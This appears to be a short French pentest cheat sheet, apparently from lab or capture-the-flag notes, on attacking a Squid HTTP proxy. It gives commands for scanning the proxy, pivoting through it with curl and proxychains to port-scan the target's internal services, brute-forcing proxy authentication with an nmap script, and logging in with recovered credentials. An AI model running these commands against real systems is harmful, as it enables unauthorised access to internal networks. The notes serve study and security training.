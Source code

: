 ### Scanner un squid

```
nmap -sV -p 3128 192.42.185.3
PORT     STATE SERVICE    VERSION
3128/tcp open  http-proxy Squid http proxy 3.5.12
```

`curl -x 192.42.185.3:3128 127.0.0.1`

[Proxychains](https://github.com/haad/proxychains)

```
[Après avoir modifié le fichier /etc/proxychains.conf en rajoutant une ligne 'http <IP> <port>'
et en commentant la ligne socks 4]
proxychains nmap -sV -sT -p- 127.0.0.1
[...]
|S-chain|-<>-192.42.185.3:3128-<><>-127.0.0.1:1337-<><>-OK
|S-chain|-<>-192.42.185.3:3128-<><>-127.0.0.1:3128-<><>-OK
```
### Bruteforcer l'authent du proxy

`nmap --script http-proxy-brute -vv -p 3128 192.113.9.3`

### Proxy authentifié

`curl -x admin:laurie@192.113.9.3:3128 127.0.0.1:1996`
